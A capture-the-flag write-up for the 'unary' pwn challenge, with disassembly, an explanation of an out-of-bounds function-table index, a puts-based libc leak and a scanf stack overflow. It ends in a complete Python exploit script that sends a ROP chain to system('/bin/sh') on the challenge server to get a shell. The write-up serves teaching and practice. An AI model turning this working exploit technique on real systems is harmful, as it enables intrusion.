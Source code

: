 # [182pts] Unary (20 solves)
# Overview

Original Title: unary
File: libc-2.27.so, unary

We can apply an unary to our inputs.
```sh
$ ./unary 
0. EXIT
1. x++
2. x--
3. ~x
4. -x
Operator: 1
x = 123
f(x) = 124
```
PIE, SSP and RELRO are disabled.
```sh
$ checksec -f unary
RELRO / STACK CANARY / NX / PIE / RPATH / RUNPATH / Symbols / FORTIFY / Fortified / Fortifiable / FILE
Partial RELRO / No canary found / NX enabled / No PIE / No RPATH / No RUNPATH / 77 Symbols / Yes / 2 /  2 /  unary
```
# Plan
# Vulnerability
The vulnerability is very simple. It has Out-Of-Bound error on the menu index.
```sh
   0x0000000000400822 <+57>:    mov    %r14,%rdi
   0x0000000000400825 <+60>:    callq  0x40079e <read_int>
   0x000000000040082a <+65>:    sub    $0x1,%ebx
   0x000000000040082d <+68>:    movslq %ebx,%rbx
   0x0000000000400830 <+71>:    mov    %r13,%rsi
   0x0000000000400833 <+74>:    mov    %eax,%edi
   0x0000000000400835 <+76>:    callq  *(%r12,%rbx,8)
```
The first argument is our input, and the second argument (r13) is the pointer to a local variable to store the result.

The number that it gets as operator is in *rbx* and the number it gets as *x* is in *rdi*.
It uses *rbx* in order to call target function and the function first argument is in *rdi*.
Result will be stored on *rsi* which is equal to *r13*. (*r13* = *rsp* + *0xc*)
r12 is the base.(ope symbol)

```sh
(gdb) disass main
Dump of assembler code for function main:
   0x00000000004007e9 <+0>:	push   %r14
   0x00000000004007eb <+2>:	push   %r13
   0x00000000004007ed <+4>:	push   %r12
   0x00000000004007ef <+6>:	push   %rbp
   0x00000000004007f0 <+7>:	push   %rbx
   0x00000000004007f1 <+8>:	sub    $0x10,%rsp
   0x00000000004007f5 <+12>:	lea    0x120(%rip),%rbp        # 0x40091c
   0x00000000004007fc <+19>:	lea    0x124(%rip),%r14        # 0x400927
   0x0000000000400803 <+26>:	lea    0xc(%rsp),%r13
   0x0000000000400808 <+31>:	lea    0x2005f1(%rip),%r12        # 0x600e00 <ope>
   0x000000000040080f <+38>:	callq  0x400759 <show_menu>
   0x0000000000400814 <+43>:	mov    %rbp,%rdi
   0x0000000000400817 <+46>:	callq  0x40079e <read_int>
   0x000000000040081c <+51>:	mov    %eax,%ebx
   0x000000000040081e <+53>:	test   %eax,%eax
   0x0000000000400820 <+55>:	je     0x400855 <main+108>
   0x0000000000400822 <+57>:	mov    %r14,%rdi
   0x0000000000400825 <+60>:	callq  0x40079e <read_int>
   0x000000000040082a <+65>:	sub    $0x1,%ebx
   0x000000000040082d <+68>:	movslq %ebx,%rbx
   0x0000000000400830 <+71>:	mov    %r13,%rsi
   0x0000000000400833 <+74>:	mov    %eax,%edi
   0x0000000000400835 <+76>:	callq  *(%r12,%rbx,8)
   0x0000000000400839 <+80>:	mov    0xc(%rsp),%edx
   0x000000000040083d <+84>:	lea    0xe8(%rip),%rsi        # 0x40092c
   0x0000000000400844 <+91>:	mov    $0x1,%edi
   0x0000000000400849 <+96>:	mov    $0x0,%eax
   0x000000000040084e <+101>:	callq  0x4005f0 <__printf_chk@plt>
   0x0000000000400853 <+106>:	jmp    0x40080f <main+38>
   0x0000000000400855 <+108>:	mov    $0x0,%eax
   0x000000000040085a <+113>:	add    $0x10,%rsp
   0x000000000040085e <+117>:	pop    %rbx
   0x000000000040085f <+118>:	pop    %rbp
   0x0000000000400860 <+119>:	pop    %r12
   0x0000000000400862 <+121>:	pop    %r13
   0x0000000000400864 <+123>:	pop    %r14
   0x0000000000400866 <+125>:	retq   
End of assembler dump.
```
# Leaking libc base
We can easily leak the libc address since PIE is disabled.By passing the address of puts@got as the *x* and index of it as operator, puts@plt(puts@got); will be called. This leaks the pointer to the puts function.

# Getting the shell
How can we get the shell though?

My intended solution is use scanf in order to cause the Stack Overflow. Thanks to the read_int function, we have "%s" string in the binary. So, we can cause a simple stack overflow by calling scanf@plt with the address of %s set as the first argument.

Since the second argument is the pointer to a local buffer, this will cause

scanf("%s", &result);
which in turn causes a stack overflow. We can just write a simple rop chain to spawn the shell.
**reminder**:
call *scanf* in assembly use *rdi* as first arg to show type of variable (e.g. %s) and *rsi* to store scanned value.

# Exploit
```sh
from ptrlib import *
# from pwn import *


def call(index, arg):
	sock.sendlineafter(": ", str(index))
	sock.sendlineafter("= ", str(arg))
	return

def ofs(addr):
	"""compute index for this address function"""

	return (addr - elf.symbol('ope')) // 8 + 1

libc = ELF("./libc-2.27.so")
elf = ELF("./unary")



# sock = Process("./unary")
sock = Socket("66.172.27.144", 9004)


# libc leak
print("ofs and address of puts function {}  {}".format(ofs(elf.got('puts')), elf.got('puts')))
#now we call puts function with its address arguement ---> so it prints puts address
call(ofs(elf.got('puts')), elf.got('puts'))
#libc.symbol('puts') -> this is offset when base is zero
libc_base = u64(sock.recvline()) - libc.symbol('puts')# this base change every time we run script
logger.info("libc = " + hex(libc_base))

# r = ROP(libc)
# print(str(r.find_gadget(['ret'])))
# res was :Gadget(0x8aa, ['ret'], [], 0x8)
rop_ret = libc_base + 0x000008aa
# logger.info("ropret is " + str(rop_ret))

# r = ROP(libc)
# print(str(r.find_gadget(['pop rdi', 'ret'])))
# res was : Gadget(0x2155f, ['pop rdi', 'ret'], ['rdi'], 0x10)
rop_pop_rdi = libc_base + 0x0002155f

# prepare rop chain
ofs_scanf = ofs(elf.got('__isoc99_scanf'))
# print(next(elf.find("%s")))
# all data is in 400000 
ofs_format = 0x400000 + next(elf.find("%s"))
# af first rsp is =  0x7fffffffe208 and rsi=r13=rsp+c= 0x7fffffffe1dc so the difference is  2c = 44
payload  = b'A' * (4 + 0x28)
payload += p64(rop_ret)
payload += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol('system'))
call(ofs_scanf, ofs_format)
sock.sendline(payload)

# get the shell!
sock.sendlineafter(": ", "0")

sock.interactive()
```
**tip**
we use 44 'A' in ROP chain because if we get value of *rsp* at first of running using gdb, it is 0x7fffffffe208 and *rsi* when we call scanf, is equal to 0x7fffffffe1dc, so to get top of the stack we need 44 'A'.

I used [this](https://ptr-yudai.hatenablog.com/entry/2020/03/17/085604) write up and indeed I have added something to it.





